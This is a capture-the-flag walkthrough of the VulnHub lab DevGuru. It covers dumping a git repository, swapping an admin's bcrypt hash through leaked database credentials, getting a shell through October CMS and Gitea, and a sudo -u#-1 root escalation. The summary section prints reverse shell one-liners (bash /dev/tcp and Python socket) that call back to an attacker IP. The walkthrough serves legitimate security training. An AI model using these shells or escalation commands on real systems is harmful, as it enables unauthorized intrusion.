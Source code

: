 ```yaml
---
title: Devguru
categories: [VulnHub]
tags: [CMS, PrivEsc, Public Exploit, git, gitea, Password Generate, sudo exploit, OCTOBER CMS]
image:
  path: https://guyintheclouds.com/banner/devguru-vulnhub.png
  alt: Devguru Machine 📚
---
```


## **Description ⤵️**

>💡 [DevGuru](https://vulnhub.com/entry/devguru-1,620/) is a fictional web development company hiring you for a pentest assessment. You have been tasked with finding vulnerabilities on their corporate website and obtaining root.
>
>OSCP like ~ Real life based
>
>**Difficulty:** *Intermediate* (Depends on experience)
{: .prompt-info }


### **Let’s find the IP Address first >>**

![130-1.png](/Vulnhub-Files/img/Devguru/130-1.png)

```bash
IP : 10.0.2.26
```
{: .nolineno}

## Port Scan Results ➡️

![131-1.png](/Vulnhub-Files/img/Devguru/131-1.png)

![131-2.png](/Vulnhub-Files/img/Devguru/131-2.png)

```bash
OPEN PORTS >
22   SSH
80   HTTP
8585 unknown
```
{: .nolineno}

---

## Web Enumeration ⤵️

I checked port 80 and I got this static webpage.

![132-1.png](/Vulnhub-Files/img/Devguru/132-1.png)

After that I checked port 8585 and I got a gitea page, whose version is `Gitea Version 1.12.5`.

![132-2.png](/Vulnhub-Files/img/Devguru/132-2.png)

Now lets look into the directory or files bruteforcing from feroxbuster and ffuf Tool →

![134-1.png](/Vulnhub-Files/img/Devguru/134-1.png)

![134-2.png](/Vulnhub-Files/img/Devguru/134-2.png)

I also looked into searchsploit for anyt public exploit for this `gitea` version.

![132-3.png](/Vulnhub-Files/img/Devguru/132-3.png)

Since it needs Authentication So I Have to find the username and the password to get the access →

![132-4.png](/Vulnhub-Files/img/Devguru/132-4.png)

Lets use nikto also →

![132-5.png](/Vulnhub-Files/img/Devguru/132-5.png)

Since I have gitea that also means that I would also have `.git` directory as that can I also be seen in `nikto` Tool scan above so lets take a look into it.

![132-6.png](/Vulnhub-Files/img/Devguru/132-6.png)

Now we have .git as a directory so its time to extract some git directories with the help of `git-dumper` →

![132-7.png](/Vulnhub-Files/img/Devguru/132-7.png)

Now lets recon further →

Data → `/git-dump/config/databases.php` →

![132-8.png](/Vulnhub-Files/img/Devguru/132-8.png)

```bash
'database'   => 'octoberdb',
'username'   => 'october',
'password'   => 'SQ66EBYx4GT3byXH'
While opening the git-dump directory I found → adminer.php →
```
{: .nolineno}

I used this above info to login into the phpmyadmin site like this.

![132-9.png](/Vulnhub-Files/img/Devguru/132-9.png)

After using that credentials I got this →

![132-10.png](/Vulnhub-Files/img/Devguru/132-10.png)

I then cracked this password hash with is in bcrypt from online random site and I did not able to crack it.

![132-11.png](/Vulnhub-Files/img/Devguru/132-11.png)

Now As I have access to the database to lets change the password hash according to my password and I will be using password as `password` here from http://brypt-generator.com site →

![132-12.png](/Vulnhub-Files/img/Devguru/132-12.png)

>Lets replace the password and saving it,Now I can Logged in with `frank → password` cred.
{: .prompt-tip }

Now coming back the main site lets login with `frank → password` cred and I can see OCTOBER CMS.

![132-13.png](/Vulnhub-Files/img/Devguru/132-13.png)

I got a reverse shell for october cms →

![132-14.png](/Vulnhub-Files/img/Devguru/132-14.png)

![132-15.png](/Vulnhub-Files/img/Devguru/132-15.png)

When I saved the code I loaded the site and I got this →

![132-16.png](/Vulnhub-Files/img/Devguru/132-16.png)

After some enumeration I found this → on `/var/backups/app.ini.bak` →

![132-17.png](/Vulnhub-Files/img/Devguru/132-17.png)

Now I have the credentials of gitea for mysql services lets use it similar as we did before →

```bash
username → gitea
password → UfFPTF8C8jjxVF2m
```
{: .nolineno}

![132-18.png](/Vulnhub-Files/img/Devguru/132-18.png)

![132-19.png](/Vulnhub-Files/img/Devguru/132-19.png)

with this I got in →

![132-20.png](/Vulnhub-Files/img/Devguru/132-20.png)

Now lets use that exploit →

![132-21.png](/Vulnhub-Files/img/Devguru/132-21.png)

The Exploit was not working so lets use the mannual code execution →

![132-22.png](/Vulnhub-Files/img/Devguru/132-22.png)

![132-23.png](/Vulnhub-Files/img/Devguru/132-23.png)

![132-24.png](/Vulnhub-Files/img/Devguru/132-24.png)

Now lets edit and commit any file so I choose [README.md](https://readme.md/) file →

![132-25.png](/Vulnhub-Files/img/Devguru/132-25.png)

![132-26.png](/Vulnhub-Files/img/Devguru/132-26.png)

![132-27.png](/Vulnhub-Files/img/Devguru/132-27.png)

Now I got it →

![133-1.png](/Vulnhub-Files/img/Devguru/133-1.png)

![133-2.png](/Vulnhub-Files/img/Devguru/133-2.png)

```bash
user.txt → 22854d0aec6ba776f9d35bf7b0e00217
```
{: .nolineno}

Now lets check the `*sudo -l*` further and I got this →

![133-3.png](/Vulnhub-Files/img/Devguru/133-3.png)

lets use it →

```bash
command →
`sudo -u#-1 /usr/bin/sqlite3 /dev/null '.shell /bin/bash`
```
{: .nolineno}

![133-4.png](/Vulnhub-Files/img/Devguru/133-4.png)

![133-5.png](/Vulnhub-Files/img/Devguru/133-5.png)

```bash
root.txt → 96440606fb88aa7497cde5a8e68daf8f
```
{: .nolineno}

![133-6.png](/Vulnhub-Files/img/Devguru/133-6.png)

<hr>

# **Summery Notes →**

1. Git enumeration with git-dumper and executing the reverse shell was on good path.
2. I enjoyed the swaping of the password method from mysql .
3. I got to know about october CMS and its reverse shell code .
4. Also about the sudo vulnerability part ←

**october CMS reverse shell code -->**

```bash
function onstart(){    exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.2.10/4444 0>&1'");}
```
{: .nolineno}

```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
{: .nolineno}

**root →**

```bash
sudo -u#-1 /usr/bin/sqlite3 /dev/null '.shell /bin/bash -i'
```
{: .nolineno}

<hr>

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }